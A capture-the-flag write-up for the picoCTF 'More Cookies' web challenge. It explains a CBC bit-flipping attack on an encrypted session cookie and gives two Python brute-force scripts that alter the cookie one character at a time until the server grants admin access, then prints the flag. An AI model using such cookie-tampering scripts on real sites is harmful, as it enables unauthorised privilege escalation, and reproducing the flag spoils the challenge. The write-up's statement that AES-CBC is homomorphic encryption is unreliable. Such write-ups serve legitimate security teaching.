 # More Cookies

## Category - Web Exploitation
## Author - MADSTACKS

### Description: 
I forgot Cookies can Be modified Client-side, so now I decided to encrypt them! http://mercury.picoctf.net:25992/

### Solution:
The challenge gives us a link which opens a webpage saying we need to be the admin to view the page. Taking a hint from the name of the challenge we see that we must probably
modify the cookies on the page correctly to make us the admin. Looking at the cookies of the page we see an "auth_name" cookie on it with a double base64 encoded string. Decoding 
the base64 encoded string twice gives us nonsense output of 
```
»h{q;¿a¤ªÐº4®Ë<Í5\ÒÕèTÌ³`	¸üî`U7C']<Q6Dn\û$~ov$ÐîNÐ¦Y(ùüCöü?ß
R x@Ã§¨ê°"
```
so we can rightly assume that it is encoded somehow. Looking at the hints for the challenge we are given this link: https://en.wikipedia.org/wiki/Homomorphic_encryption. 
In addition to this, looking at the capital letters in the description we see "CBC". AES-CBC is a type of homomorphic encryption so we know we are on the right track. Researching various vulnerabilities in CBC we come across the byte-flipping attack where by changing a byte in the ciphertext we change one byte in the plaintext of the encrypted message.

You can read more about this attack here: https://resources.infosecinstitute.com/topic/cbc-byte-flipping-attack-101-approach/.

From this we can deduce that the cookie looks something like 'admin=0' and we need to change it to 'admin=1'. For this, I wrote a script that changes every byte of the base64 encoded 
cookie to every other possible value for the byte and once the correct one is hit, the request will return the flag:
```python
#CBC bit flipping attack
import requests

s = requests.Session()

response = s.get('http://mercury.picoctf.net:25992/')
cookie = s.cookies['auth_name']
print(s.cookies)
print(cookie)
alphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

for i in range(0, len(cookie)):
    for alphchar in alphabet:
        newcookie = cookie[:i] + alphchar + cookie[i + 1:]
        print(newcookie)
        cookies_dict = {'auth_name': newcookie}
        print(cookies_dict)
        response = requests.get('http://mercury.picoctf.net:25992/', cookies=cookies_dict)
        print(response.content)
        if 'pico' in response.content:
            exit()
```
As you can see the script simply enumerates over every byte in the cookie, replaces it with every possible character byte it could be, and then makes a request to the url with the new cookie. After hitting the request with the flag it will exit and show the contents of the webpage that was return with the request with the proper admin cookie. 

I also made a cleaner implementation with the help of my friend that goes as follows:
```python
import requests

# Visualization Tools


def printProgressBar(iteration, total, prefix='', suffix='', decimals=1, length=100, fill='█', printEnd="\r", text=''):
    """
    Call in a loop to create terminal progress bar
    @params:
        iteration   - Required  : current iteration (Int)
        total       - Required  : total iterations (Int)
        prefix      - Optional  : prefix string (Str)
        suffix      - Optional  : suffix string (Str)
        decimals    - Optional  : positive number of decimals in percent complete (Int)
        length      - Optional  : character length of bar (Int)
        fill        - Optional  : bar fill character (Str)
        printEnd    - Optional  : end character (e.g. "\r", "\r\n") (Str)
    """
    percent = ("{0:." + str(decimals) + "f}").format(100 *
                                                     (iteration / float(total)))
    filledLength = int(length * iteration // total)
    bar = fill * filledLength + '-' * (length - filledLength)
    print(f'\r{prefix} |{bar}| {percent}% {suffix}', end=printEnd)
    # Print New Line on Complete
    if iteration == total:
        print()


# CBC bit flipping attack

s = requests.Session()
url = 'http://mercury.picoctf.net:{}/'.format(
    input("Please enter your port number:"))
print("Starting enumeration on {}".format(url))
response = s.get(url)
cookie = s.cookies['auth_name']
alphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
total = len(cookie)*len(alphabet)
printProgressBar(0, total, prefix='Testing Cookie (0/0):',
                 suffix='Complete', length=50)

for i in range(0, len(cookie)):
    for j, alphchar in enumerate(alphabet):
        newcookie = cookie[:i] + alphchar + cookie[i + 1:]
        curr = i*len(alphabet)+j
        printProgressBar(curr, total, prefix='Testing Cookie ({}/{}):'.format(curr, total),
                         suffix='Index:{} | Letter:{}'.format(i, alphchar), length=50, text=newcookie)
        cookies_dict = {'auth_name': newcookie}
        response = requests.get(
            url, cookies=cookies_dict)
        if "pico" in response.content.decode():
            print(newcookie)
            print("************************")
            print(response.content.decode().split(
                "<code>")[1].split("</code>")[0])
            print("************************")
            exit()
```

It takes a fair amount of time to run and return the flag.

### Flag:
```
picoCTF{cO0ki3s_yum_82f39377}
```
